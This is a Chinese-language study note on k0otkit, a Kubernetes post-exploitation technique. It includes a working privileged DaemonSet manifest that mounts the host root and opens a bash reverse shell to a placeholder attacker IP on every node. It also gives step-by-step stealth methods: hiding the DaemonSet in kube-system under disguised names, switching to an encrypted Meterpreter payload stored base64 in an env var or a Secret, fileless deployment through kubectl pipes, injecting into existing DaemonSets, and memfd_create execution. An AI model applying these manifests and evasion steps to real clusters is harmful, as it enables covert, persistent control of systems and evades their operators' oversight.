 # k0otkit
绿盟开发,
场景为已经造成了控制节点的容器逃逸，获取了控制节点的root权限,然后进行后渗透利用

## 基本思路
k8s存在名叫DaemonSet的资源，他能够确保全部节点上运行一个pod的副本，当有节点加入集群的时候，也会为听他们新增一个Pod

DaemonSet对于渗透测试很有价值:
1. 能够确保所有节点上都运行一个Pod
2. 如果有Pod退出，DaemonSet将在对应节点上自动重建一个Pod

因此如果利用管理员凭证在目标集群创建一个内容为反弹shell的DaemonSet,我们就可以实现集群所有节点自动化反弹shell

## 基本实现
将DaemonSet创建的Pod启动命令设置为反弹shell即可,但仅仅如此也是不够的
我们需要在这个容器上打破隔离，需要以下几点
1. 特权容器，相当于docker run的时候加上`-privileged`选项
2. 容器与宿主机共享PID命名空间
3. 容器内挂载宿主机根目录

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: attacker
spec:
  selector:
    matchLabels:
      app: attacker
  template:
    metadata:
      labels:
        app: attacker
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: main
        image: bash
        imagePullPolicy: IfNotPresent
        command: ["bash"]
        # reverse shell
        args: ["-c", "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
```

然后利用容器逃逸的`kubectl apply -f k0otkit.yaml`来实现该功能

然后绿盟的研究员也对该yaml进行了迭代更新，使得能让其增加隐蔽性

## 删除敏感词
名称和标签切换为`kube-cache, kube-metrics`这种，可以极大减少怀疑
此外由于管理员执行命令`kubectl get pods`就可以查看节点

所以这里同样考虑将`DaemonSet`资源创建在`kube-system`系统命名空间下，这样运行上面的命令就查看不到异常资源，
而在正常运行k8s的集群下，查看kube-system命名空间的资源状态需求也很少，这样就提高了隐蔽性
```yaml
metadata:
    name: attacker
    namespace: kube-system
    # ...
```
## 替换shell为Meterpreter
上面的yaml是基于bash的TCP协议反弹shell
由于他是明文，所以可能被网络入侵检查系统轻易检测从而触发警告

利用metasploit项目来生成加密反弹shell流量的二进制文件mrt

## 无文件化
上面的构建面临以下问题:
1. 在控制节点上面我们会创建一个本地yaml文件，本地创建文件可能会引起文件监控系统的告警
2. 并且需要二进制程序mrt为启动命令构建容器镜像,自行Meterpreter构建镜像动静太大,远程拉外部镜像容易引起告警

第一个问题的皆解决办法就是使用Linux命令行管道

```sh
cat << EOF | kubectl apply -f -
# {YAML文件内容}
EOF
```
这行命令就是使用cat获取多行输入,结尾用EOF表示，再将cat的输出用管道重定向到`kubectl apply -f -`命令
这样就不需要要创建本地yaml文件


第二个问题,将二进制Meterpreter编码为可见字符串，然后以环境变量的形式存放在DaemonSet的Yaml中
容器运行起来再从中读取字符串解码并保存为二进制文件

```YAML
# ......
      containers:
      - name: main
        image: bash
        imagePullPolicy: IfNotPresent
        command: ["bash"]
        args: ["-c", "echo -ne $(echo $PAYLOAD | base64 -d) > mrt; chmod u+x mrt; ./mrt"]
        env:
        - name: PAYLOAD
          value: "{PAYLOAD_VALUE}"
# .....
```

## 分离payload

编码后的Meterpreterr过长，容易被视作异常
k8s有一类名为Secret的资源，用来存储敏感信息，可以存入很长的字符串

```sh
secret_name=proxy-cache
secret_data_name=content

cat << EOF | kubectl --kubeconfig /root/.kube/config apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: $secret_name
  namespace: kube-system
type: Opaque
data:
  $secret_data_name: {PAYLOAD_VALUE_BASE64}
EOF
```
另外需要修改DaemonSet的YAML,将上面secret以环境变量形式加载到容器内部

## 动态容器注入
如果管理员认真查看`kube-system`命名空间下的资源，k0otkit将直接暴露
所以这里采用将恶意容器注入到集群已有的DaemonSet中，这样就不必额外创建DaemonSet资源

## 解决镜像依赖
通过注入目标来确定修改的恶意容器启动命令

## 无文件攻击
由于容器启动后还是会通过yaml文件创建恶意二进制程序，因此上面的问题并不是完整的无文件攻击，这里使用linux提供的系统调用`memfd_create`,而这个系统调用是创建一个内存文件，然后向其中填入内容，最终执行该文件




# 参考
[https://blog.nsfocus.net/k0otkithack-k8s-in-a-k8s-way/](https://blog.nsfocus.net/k0otkithack-k8s-in-a-k8s-way/)
[内核信息取证](https://www.youtube.com/watch?v=6oe7qL7-WoI)
[使用rootkit隐藏蜜罐](https://www.sciencedirect.com/science/article/abs/pii/S1084804523000255)






